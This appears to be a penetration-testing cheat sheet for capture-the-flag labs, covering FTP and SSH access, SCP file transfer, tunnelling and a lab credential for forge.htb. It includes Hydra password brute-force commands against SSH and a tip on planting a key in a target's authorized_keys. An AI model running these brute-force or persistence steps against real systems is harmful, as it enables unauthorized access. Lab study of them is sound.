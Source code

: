 ## FTP
#### connect to ftp via url

```bash
<ftp://$user:$password@$domain> or $ip
example:
?u=ftp://user:heightofsecurity123!@forge.htb
```

#### move to the ftp local directory from ftp

```bash
lcd ftp
```

## SSH
#### Get a file from SSH server

```bash
scp -P22  user@IP:filename .
```

#### Send file via ssh

```bash
scp $filename $user@$IP:.
```

#### SCP a folder to your local machine

```bash
scp -r $user@$IP:/var/www/html .
```

#### Hydra username/password bruteforce

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://$IP
```

```bash
hydra -l <username> -P <wordlist> $IP -t 4 ssh
```

#### Tricks to connect to SSH

grab your SSH key and add it to the `authorized_keys` file inside the .ssh folder in the target machine
```bash
ssh-keygen -f mykey
```

#### SSH Tunneling

```bash
ssh <USER>@<IP> -L <LOCAL PORT>:127.0.0.1:<LOCAL PORT>
```
